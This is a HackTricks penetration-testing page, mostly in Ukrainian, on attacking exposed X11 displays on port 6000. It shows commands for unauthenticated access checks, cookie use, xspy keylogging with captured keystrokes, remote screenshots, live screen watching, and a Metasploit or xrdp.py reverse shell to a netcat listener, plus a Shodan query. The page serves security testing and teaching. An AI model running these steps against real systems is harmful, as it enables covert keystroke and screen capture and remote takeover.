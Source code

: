 # 6000 - Pentesting X11

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Основна інформація

**X Window System** (X) є універсальною системою вікон, що поширена на операційних системах на базі UNIX. Вона надає структуру для створення графічних **інтерфейсів користувача (GUI)**, де окремі програми займаються дизайном інтерфейсу користувача. Ця гнучкість дозволяє створювати різноманітні та налаштовувані враження в середовищі X.

**Порт за замовчуванням:** 6000
```
PORT       STATE   SERVICE
6000/tcp   open    X11
```
## Enumeration

Перевірте наявність **анонімного з'єднання:**
```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```
#### Локальна енумерація

Файл **`.Xauthority`** у домашній папці користувача **використовується** **X11 для авторизації**. З [**тут**](https://stackoverflow.com/a/37367518):
```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```
> MIT-magic-cookie-1: Генерація 128-бітного ключа (“cookie”), зберігання його в \~/.Xauthority (або в тому місці, куди вказує змінна середовища XAUTHORITY). Клієнт надсилає його серверу у відкритому вигляді! Сервер перевіряє, чи має він копію цього “cookie”, і якщо так, з'єднання дозволяється. Ключ генерується DMX.

{% hint style="warning" %}
Щоб **використовувати cookie**, ви повинні встановити змінну середовища: **`export XAUTHORITY=/path/to/.Xauthority`**
{% endhint %}

#### Локальна сесія перерахунку
```bash
$ w
23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```
У прикладі `localhost:0` працював xfce4-session.

## Перевірка з'єднання
```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```
## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) для перехоплення натискань клавіш на клавіатурі.

Sample Output:
```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
## Захоплення скріншотів
```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
## Віддалений робочий стіл

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
```
./xrdp.py <IP:0>
```
Спочатку нам потрібно знайти ID вікна, використовуючи xwininfo
```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
**XWatchwin**

Для **живого перегляду** нам потрібно використовувати
```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
## Отримати оболонку
```
msf> use exploit/unix/x11/x11_keyboard_exec
```
**Зворотний шелл:** Xrdp також дозволяє отримати зворотний шелл через Netcat. Введіть наступну команду:
```bash
./xrdp.py \<IP:0> –no-disp
```
В інтерфейсі ви можете побачити опцію **R-shell**.

Потім запустіть **Netcat listener** у вашій локальній системі на порту 5555.
```bash
nc -lvp 5555
```
Тоді введіть свою IP-адресу та порт у опцію **R-Shell** і натисніть на **R-shell**, щоб отримати оболонку

## Посилання

* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

* `port:6000 x11`

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Приєднуйтесь до [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) сервера, щоб спілкуватися з досвідченими хакерами та шукачами вразливостей!

**Hacking Insights**\
Залучайтеся до контенту, який занурюється у захоплення та виклики хакерства

**Real-Time Hack News**\
Будьте в курсі швидкоплинного світу хакерства через новини та інсайти в реальному часі

**Latest Announcements**\
Будьте в курсі нових програм винагород за вразливості та важливих оновлень платформ

**Приєднуйтесь до нас на** [**Discord**](https://discord.com/invite/N3FrSbmwdy) і почніть співпрацювати з провідними хакерами вже сьогодні!

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
